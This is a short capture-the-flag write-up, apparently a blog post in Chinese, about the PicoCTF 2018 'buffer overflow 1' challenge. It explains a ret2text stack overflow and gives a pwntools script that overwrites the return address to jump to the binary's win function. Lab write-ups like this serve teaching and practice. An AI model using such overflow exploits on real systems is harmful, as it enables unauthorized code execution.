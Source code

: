 ```yaml
---
title: '{PicoCTF_2018_buffer_overflow_1}'
date: 2024-01-03 13:00:00 +0800
categories: [ctf,pwn]
tags: [ret2text]
---
```

![image-20240103130117204](../assets/img/old_imgs/image-20240103130117204.png)

![image-20240103130158706](../assets/img/old_imgs/image-20240103130158706.png)

- `ret2text`

1. `vuln`函数中`s`变量存在溢出
2. 存在后门函数
3. 构造`payload`填充再跳转到后门函数`win`就可以得到`flag`

```python
from pwn import *
io = process('./PicoCTF_2018_buffer_overflow_1')
padding = b'A'*(0x28+0x4)
payload = padding+p32(0x080485CB)
io.sendlineafter(b'Please enter your string: \n',payload)
io.interactive()
```

